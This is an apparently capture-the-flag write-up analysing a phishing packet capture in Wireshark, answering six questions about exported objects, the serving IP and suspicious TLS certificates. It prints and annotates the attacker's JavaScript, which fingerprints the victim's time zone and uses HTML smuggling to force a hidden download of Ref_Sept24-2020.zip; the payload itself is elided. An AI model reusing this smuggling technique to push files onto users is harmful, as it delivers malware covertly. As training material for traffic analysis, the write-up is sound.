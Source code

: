 ```yaml
---
sidebar_position: 1
---
```

# Wireshark Practice
<!-- MDX imports -->
import Answer from '@site/src/components/Answer'
import CodeBlock from '@theme/CodeBlock';

### Challenge
:::info Challenge Text
Use the Wireshark Phishing terminal in the Tolkien Ring to solve the mysteries around the suspicious PCAP. Get hints for this challenge by typing hint in the upper panel of the terminal.
:::

<!-- Page content -->
Our first challenge is to help a hapless elf who seems to have clicked on a malicious link in their email. We're given a very sus PCAP file called ```suspicious.pcap```

:::note Question 1
There are objects in the PCAP file that can be exported by Wireshark and/or Tshark. What type of objects can be exported from this PCAP?
:::
<details>
<summary>Answer: <code>HTTP</code></summary>

Assets can be exported from Wireshark by clicking ```File -> Export Objects``` and then selecting type of object to be exported. The only objects that can be exported from this PCAP are **HTTP** objects.

![Wireshark file export process](./assets/img/tr1-1.png)

</details>

:::note Question 2
What is the file name of the largest file we can export?
:::
<details>
<summary>Answer: <code>app.php</code></summary>

Using the same method as before, we can select ```File -> Export Objects -> HTTP```

![Wireshark HTTP file export dialogue](./assets/img/tr1-2.png)

In the dialogue that opens, we can see that the largest file is the second in this list: **```app.php```**, coming in at 808kb.
</details>

:::note Question 3
What is the packet number that starts that app.php file?
:::
<details>
<summary>Answer: <code>687</code></summary>

Thankfully, we can find the answer to this in the same dialogue as above. If we look at the far left column, we see that this file begins at packet number **```687```**.

</details>

:::note Question 4
What is the IP of the Apache server?
:::

<details>
<summary>Answer: <code>192.185.57.242</code></summary>
```Moving on, we’re asked to find the source address of the Apache server which served this file. We can find this by clicking on the app.php line of the export dialogue (which will select packet 687 for us) and then going back to the main Wireshark window.```

![Wireshark entry for packet number 687](./assets/img/tr1-3.png)

Looking at this image, we see a source IP address of ```192.185.57.242``` and a destination address of ```10.9.24.101```, which we can note for later. Since this packet was served in response to an HTTP request, the Apache server is the IP in the source column of this packet: **```192.185.57.242```**.
</details>

:::note Question 5
What file is saved to the infected host?
:::
<details>
<summary>Answer: <code>Ref_Sept24-2020.zip</code></summary>

At this point, it’s news to us that a file had been saved to a host at all, but thanks, terminal. Since we’d been told that this started when the elf we’re helping clicked a link in their email, it seems likely that the file was delivered over HTTP. Since we’re already inspecting packet 687, we can right click it in the GUI and select Follow -> HTTP Stream to view the actual content(s) of app.php.

A quick analysis of the embedded JavaScript on this page should hopefully make more sense of what happened. The first retrieval of app.php merely sets two cookies and then reloads the page (comments are ours):

```html
<script>
	let d = -new Date().getTimezoneOffset(); // Time zone offset (from GMT) of the local time zone
	let n = Intl.DateTimeFormat().resolvedOptions().timeZone; // Human-readable time zone name

    ...

	if (!get_cookie('d') && !get_cookie('n')) {
		set_cookie('d', d, 2); // Set cookie "d" to the time zone offset with an expiration of 2 minutes
		set_cookie('n', n, 2); // Set cookie "n" to the time zone name with an expiration of 2 minutes
		document . location . reload(); // Reload the window to retrieve app.php again
	}
</script>
```

As annotated above, the contents of the cookies ```d``` and ```n``` are the target machine’s time zone offset and time zone name, respectively. This information could have been used by evildoers to target North Pole residents specifically, although we don’t have a way to be sure of this without looking at the PHP source code. The second load of the page contains some much more interesting snippets (here some comments are ours, but some existed in the source already):

```html
<script>
function saveAs(blob, fileName) {
let url = window.URL.createObjectURL(blob); // Creates a URL for the "blob" argument

let anchorElem = document.createElement('a'); // Creates an "a" element in the HTML document named anchorElem
anchorElem.style = 'display: none'; // Sets anchorElem to not be rendered in a browser window
anchorElem.href = url; // Sets the href of the document to the URL that was obtained earlier
anchorElem.download = fileName; // Specifies the file name should the user click on this element

document.body.appendChild(anchorElem);
anchorElem.click(); // Forcibly click anchorElem, downloading the contents of "blob"

document.body.removeChild(anchorElem); // Remove the element from the page after the file has been downloaded
...
}

(function() {
    let byteCharacters = ("...") // Obscenely long string of characters. This is an ASCII representation of the payload that the attacker wants us to pwn us with
    let byteNumbers = new Array(byteCharacters.length);
for (let i = 0; i < byteCharacters.length; i++) { // This for loop serves to copy the encoded byteCharacters string into the byteNumbers array created previously
    byteNumbers[i] = byteCharacters.charCodeAt(i);
}
let byteArray = new Uint8Array(byteNumbers); // Here, the byteNumbers array is used to make a byte array, which is actually usable as a downloadable octet stream

// now that we have the byte array, construct the blob from it
let blob1 = new Blob([byteArray], {type: 'application/octet-stream'});

saveAs(blob1, 'Ref_Sept24-2020.zip'); // Using the saveAs function defined above, the attacker saves this blob as "Ref_Sept24-2020.zip"
})();
</script>
```

To put it shortly, the majority of this response’s size is made up of an extremely large string named “byteCharacters”. This string is converted to a byte array and then forcibly downloaded to our very sad elf’s computer. In the final line, we can see that this file is downloaded as **```Ref_Sept24-2020.zip```**.

</details>

:::note Question 6
Attackers used bad TLS certificates in this traffic. Which countries were they registered to?
:::

<details>
<summary>Answer: <code>Israel, South Sudan</code></summary>

Looking through the certificates in the resultant traffic reveals several certificates from Microsoft and Baltimore CyberTrust Root, all of which appear to be legitimate at a glance. Two certificates however are signed by the common names of ```heardbellith.Icanwepeh.nagoya``` and ```psprponounst.aquarelle``` both of which looked like absolute gibberish. At this point, we decided to Google these names to make sure that wasn’t due to us being uncultured Americans, but thankfully, they do seem to be gibberish in every language. The issuers of these certificates have the country codes of IL and SS, respectively, and a quick Google of these codes showed that our answer should be **```Israel, South Sudan```**.

</details>
